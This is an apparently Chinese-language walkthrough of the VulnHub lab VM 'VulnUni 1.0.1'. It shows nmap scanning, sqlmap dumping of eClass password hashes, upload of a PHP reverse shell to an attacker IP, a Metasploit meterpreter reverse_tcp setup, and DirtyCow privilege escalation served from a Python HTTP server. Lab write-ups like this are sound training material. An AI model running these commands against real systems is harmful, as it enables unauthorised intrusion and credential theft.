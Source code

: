 ## VulnUni:1.0.1 Walkthrough

### 主机识别

`netdiscover -i wlan0`

### 网络拓扑

| 计算机  | IP              |
| ------- | --------------- |
| Kali    | `192.168.1.107` |
| Vulnuni | `192.168.1.105` |

### 扫描端口和版本信息

`nmap -A 192.168.1.105`

![1](../src/vulnhub/Vulnuni/1.png)

### 访问Web并确认web应用

![2](../src/vulnhub/Vulnuni/2.png)

### 使用 BurpSuite 高级功能扫描Web应用

我们使用 `dirb`、`dirsearch `这类基于字典的web应用扫描器很难获取web网站有哪些网页，因此可以使用 BurpSuite 的高级功能 **Discover Content** ，经过一段时间我们就可以得到大致 web site map ，发现登录页面

![3](../src/vulnhub/Vulnuni/3.png)

根据页面信息，我们了解到该web应用是 **某eClass**， 经过OSINT查到该页面存在SQL注入，这样我们就可以进行Sqlmap注入了

![4](../src/vulnhub/Vulnuni/4.png)

因此将该页面保存为*post.txt*，使用sqlmap进行SQL注入

![5](../src/vulnhub/Vulnuni/5.png)

`sqlmap -r post.txt --dbs --batch`

`sqlmap -r post.txt -D eclass --tables --batch`

`sqlmap -r post.txt -D eclass -T user --columns --batch`

`sqlmap -r post.txt -D eclass -T user -C password --dump --batch`

![6](../src/vulnhub/Vulnuni/6.png)

经过尝试，使用`admin:ilikecats89` 账号密码登录，下一步我们就找找是否有漏洞页面，最常见的就是文件上传漏洞获取webshell，同样是采用BP搜索（**Finder References**），不过将目标缩短在登录之后的页面

> 利用过滤功能（`type="file"`）可以快速定位到具有文件上传功能的网页

![8](../src/vulnhub/Vulnuni/8.png)

目标找到`http://vulnuni.local/vulnuni-eclass/modules/course_info/restore_course.php`

![7](../src/vulnhub/Vulnuni/7.png)

更改 [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) 中的IP（`192.168.1.107`）和端口信息（`8866`）并且将其压缩上传，对于上传文件存在的路径，使用同样的方法定位在 *courses* 目录下，访问该链接，并且在 kali 下开启监听端口

![9](../src/vulnhub/Vulnuni/9.png)

`find / -name flag* -type f`

这里通过搜索 *flag*，定位到该目录下（*/home/vulnuni*），使用`cat`命令是可以读到flag的，不过为了完成完整的测试，目的是知道虚拟机的登录密码，因此需要将该会话建立在*msf*中，后续进行提权

### msf 建立会话

```
use exploit/multi/script/web_delivery
set target 1
set lhost 192.168.1.107
set payload php/meterpreter/reverse_tcp
set srvport 4455
exploit
```

![10](../src/vulnhub/Vulnuni/10.png)

通过将图中选中部分复制到临时会话中运行，我们（Kali）就会在 *meterpreter* 建立了与该虚拟机的会话

![11](../src/vulnhub/Vulnuni/11.png)

### 权限提升

Linux 环境下的权限提升大多根据内核版本进行提权，因此首要任务就是获取该虚拟机的内核版本，执行命令`uname -r`

![12](../src/vulnhub/Vulnuni/12.png)

通过 OSINT，我们知道该内核存在漏洞 [DirtyCow](https://www.exploit-db.com/exploits/40616)，下载 exp，重命名为 *cowroot.c* 源文件，在 Kali 上运行简单的HTTP服务器（`python3 -m http.server 8088`），将该源码传到虚拟机中

![13](../src/vulnhub/Vulnuni/13.png)

根据源码里的操作可以将权限提至root 权限，查看密码文件得到了该虚拟机经过 SHA-256 加密的登录密码

![14](../src/vulnhub/Vulnuni/14.png)

### Ref.

- [hackingarticles](https://www.hackingarticles.in/vulnuni-1-0-1-vulnhub-walkthrough/)